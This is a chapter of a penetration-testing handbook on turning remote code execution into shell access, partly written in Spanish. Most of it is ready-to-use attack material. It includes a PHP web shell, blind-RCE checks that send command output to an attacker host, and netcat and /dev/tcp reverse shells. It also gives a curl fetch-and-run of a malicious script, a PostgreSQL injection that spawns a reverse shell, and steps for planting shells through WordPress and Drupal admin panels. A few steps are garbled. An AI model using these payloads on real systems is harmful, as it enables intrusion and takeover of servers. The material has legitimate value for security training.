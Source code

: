 # (PART) Vuln exploit & Gaining Access {-}

# Beyond Remote Code Execution {-}

**Remote code execution** occurs after some vulnerabilities exploitation and allows users to execute
operating system commands on a remote system. 

You always have to be aware of command type execution language. Sometimes bash command are not working, so try with
languages. If the website is in php try to call phpinfo(); for example. Then you will know that your remote code execution will
look like system('whoami');

# Checking if code execution occurs {-}

Sometimes attacker don't realy know if remote code execution occurs because no direct output are visible
to him. Here we will see some technics to know if code execution runs or not.

## Time sleep technic {-}

```bash
GET /script.php?cmd=sleep+5&ok=ok HTTP/1.1
```

## Check network connectivity {-}

Lets try to ping the attacker machine, attacker can use wireshark or tcpdump.

On the attacker machine listen to icmp connection

```bash
tcpdump icmp
```
remote code execution ping

```bash
ping -c 5 <attacker ip>
```

## Use wget and netcat to execute command {-}

1. listener (attacker)

    ```bash
    nc -nlvp 443
    ```
    > [!] NOTE: use `rlwrap nc -nlvp 443` for windows machines
    
2. powned (victim)

    ```bash
    wget http://<pirate_ip>:443/`whoami`
    ```

> [ ! ] NOTE: for big files or also for php files use the | base64 command 
> ```wget http://<pirate_ip>:443/`id|base64` ```


# Visible remote code execution {-}

**Visible remote code execution** can be performed with code looking like that:

```php
<?php
echo "<html>";
echo "<pre>";
echo "<form method=GET><input type=text name=cmd style='width:400px;'>";
echo "<input type=submit value=Execute style='height:34px;'></form>";
$a = system($_GET["cmd"]);
echo "</pre></html>";
?>
```

When the remote code execution response is visible, there are some things to check:  

- Which user serves the service  
- Where  
- Interesting files content  
- Binaries  


```bash
ifconfig
whoami
id
pwd
cat /etc/passwd
cat /etc/group
which python
which curl
which nc
which wget
```

# Gaining access throw remote code execution {-}

## Listen and connection with netcat {-}

**Netcat** also known as **nc** is a utility that allows to open TCP or UDP connections throw the network.

How it work:

1. listener (attacker)  

    ```bash
    nc -nlvp 443
    ```

1. powned (victim)  

    ```bash
    nc -e /bin/bash <pirate_ip> 443
    ```

## Connection with curl {-}

1. attacker http server (attacker)  

    ```bash
    python -m http.server 9090
    ```

1. powned (victim)  

    ```bash
    mkdir /tmp/r
    curl http://<pirate_ip>:9090/reverse_tcp_malicious.sh -o /tmp/r
    chmod +x /tmp/r/reverse_tcp_malicious.sh
    ```

1. listener (attacker)  

    ```bash
    nc -nlvp 443
    ```

1. powned (victim)  

    ```bash
    /tmp/r
    ```

## Spawning a terminal from a shell {-}

After a successfull connection it's important to prepare the shell to be able to work confortably.
The following command are always the same:

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```

> [ ! ] Note: stty -a is done in the attacker shell to know rows and columns size


# Use SQL Injection for create a reverse shell {-}

## Postgresql {-}

1. Check the db VERSION

    ```
    ' UNION SELECT NULL, NULL, NULL, NUUL, VERSION() --
    ```

1. Create a table for execute commands

    ```
    '; CREATE TABLE cmd_exec(cmd_output text) --
    ```

1. Initiate a reverse shell

    ```
    '; COPY cmd_exec FROM PROGRAM 'bash -c ''bash -i >& /dev/tcp/10.10.10.10/443 0>&1'''; --
    ```

# CMS {-}

## Wordpress {-}

When we are connected to the wordpress admin panel, the trick is to modify Theme **404.php** file.

We can go to `Appearance > Editor` and update 404 Template.

> [ ! ] Note: if this file doesn't exist, **Select theme to edit** and search for another theme.

listen on port 443

```bash
nc -nlvp 443
```

Edit 404.php file by inserting a reverse shell,

```php
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'");
?>
```

Go to url `http://10.10.10.10/?p=404.php` or `http://10.10.10.10/wp-content/themes/<theme-name>/404.php`


## Druppal {-}

Para ejecutar commandos o mejor dicho, para ganar accesso al systema desde un admin panel de drupal siempre es el mismo.

1. En modules, habilitar el componente PHP Filter

    ```r
    knitr::include_graphics("images/drupal-phpfilter.png")
    ```

1. Crear un nuevo contenido

    ```r
    knitr::include_graphics("images/drupal-new-article.png")
    ```

1. Ponernos en escucha en el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. En drupal añadir en el body

    ```php
    <?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
    ```

1. En Text Format le ponemos a **PHP code**
1. Le damos al boton Preview
